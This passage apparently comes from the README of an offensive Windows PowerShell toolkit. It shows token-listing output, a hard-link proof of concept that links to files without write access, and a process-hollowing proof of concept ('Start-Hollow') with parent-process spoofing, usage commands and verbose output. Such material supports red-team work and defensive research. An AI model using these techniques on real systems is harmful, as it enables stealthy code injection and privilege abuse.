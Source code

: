 ```
svchost              4292 7704    No       SecurityImpersonation MSEDGEWIN10\IEUser
svchost              4292 1404    No       SecurityImpersonation MSEDGEWIN10\IEUser
svchost              4464 Primary No       N/A                   MSEDGEWIN10\IEUser
svchost              4556 Primary No       N/A                   MSEDGEWIN10\IEUser
[... Snip ...]
```

### Native-HardLink

This is a proof-of-concept for NT hard links. There are some advantages, from an offensive perspective, to using NtSetInformationFile to create hard links (as opposed to mklink/CreateHardLink). NtSetInformationFile allows us link to files we don’t have write access to.

```
PS C:\> Native-HardLink -Link C:\Some\Path\Hard.Link -Target C:\Some\Path\Target.file
True
```

## pwnd

### Start-Hollow

This is a proof-of-concept for process hollowing. There is nothing new here except maybe the use of NtCreateProcessEx which has some advantages in that it offers a convenient way to set a parent process and avoids the bothersome Get/SetThreadContext. On the flipside CreateRemoteThreadEx/NtCreateThreadEx are pretty suspicious API's.

```
# Create a Hollow from a PE on disk with explorer as the parent.
# x64 Win10 RS4
C:\PS> Start-Hollow -Sponsor C:\Windows\System32\notepad.exe -Hollow C:\Some\PE.exe -ParentPID 8304 -Verbose
VERBOSE: [?] A place where souls may mend your ailing mind..
VERBOSE: [+] Opened file for access
VERBOSE: [+] Created section from file handle
VERBOSE: [+] Opened handle to the parent => explorer
VERBOSE: [+] Created process from section
VERBOSE: [+] Acquired PBI
VERBOSE: [+] Sponsor architecture is x64
VERBOSE: [+] Sponsor ImageBaseAddress => 7FF69E9F0000
VERBOSE: [+] Allocated space for the Hollow process
VERBOSE: [+] Duplicated Hollow PE headers to the Sponsor
VERBOSE: [+] Duplicated .text section to the Sponsor
VERBOSE: [+] Duplicated .rdata section to the Sponsor
VERBOSE: [+] Duplicated .data section to the Sponsor
VERBOSE: [+] Duplicated .pdata section to the Sponsor
VERBOSE: [+] Duplicated .rsrc section to the Sponsor
VERBOSE: [+] Duplicated .reloc section to the Sponsor
VERBOSE: [+] New process ImageBaseAddress => 40000000
VERBOSE: [+] Created Hollow process parameters
VERBOSE: [+] Allocated memory in the Hollow
VERBOSE: [+] Process parameters duplicated into the Hollow
VERBOSE: [+] Rewrote Hollow->PEB->pProcessParameters
VERBOSE: [+] Created Hollow main thread..
True
```
